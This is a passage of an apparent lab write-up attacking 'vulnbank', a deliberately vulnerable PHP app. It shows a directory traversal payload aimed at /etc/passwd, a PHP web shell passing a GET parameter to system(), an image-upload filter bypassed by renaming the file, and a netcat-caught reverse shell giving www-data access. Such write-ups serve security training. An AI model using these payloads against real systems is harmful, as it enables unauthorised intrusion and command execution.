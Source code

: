 The image address is as follows.

```
http://192.168.0.105:8008/unisxcudkqjydw/vulnbank/client/view_file.php?filename=meme.jpg
```

Tried checking for directory traversal on the `filename` parameter.

```
http://192.168.0.105:8008/unisxcudkqjydw/vulnbank/client/view_file.php?filename=../../../../../../../../../../../../../etc/passwd%00.jpg
```

But it doesn't seem to work.

```
Warning: include(): Failed opening 'upload/../../../../../../../../../../../../../etc/passwd' for inclusion (include_path='.:/usr/share/php') in /var/www/html/unisxcudkqjydw/vulnbank/client/view_file.php on line 13
```

I tried uploading a PHP file named `shell.php` with this payload for another ticket.

```php
<?php
echo '<pre>';
echo system($_GET['cmd']);
echo '</pre>';
?>
```

The site doesn't allow files other than images to be uploaded.

So I renamed the PHP file to `shell.jpg` and tried to reupload it. It's uploaded and I can run shell commands using the PHP script.

```
http://192.168.0.105:8008/unisxcudkqjydw/vulnbank/client/view_file.php?filename=shell.jpg&cmd=ls%20-alh
```

It ran the command. So I proceed by uploading a PHP reverse shell script after renaming the file tp `php-reverse-shell.jpg`.

Now I started a listener on my host with Netcat.

```
$ nc -lnvp 1234
```

And then I got the PHP reverse shell to connect back.

```
http://192.168.0.105:8008/unisxcudkqjydw/vulnbank/client/view_file.php?filename=php-reverse-shell.jpg
```

I got in with the privilege of user www-data.

### Reverse Shell
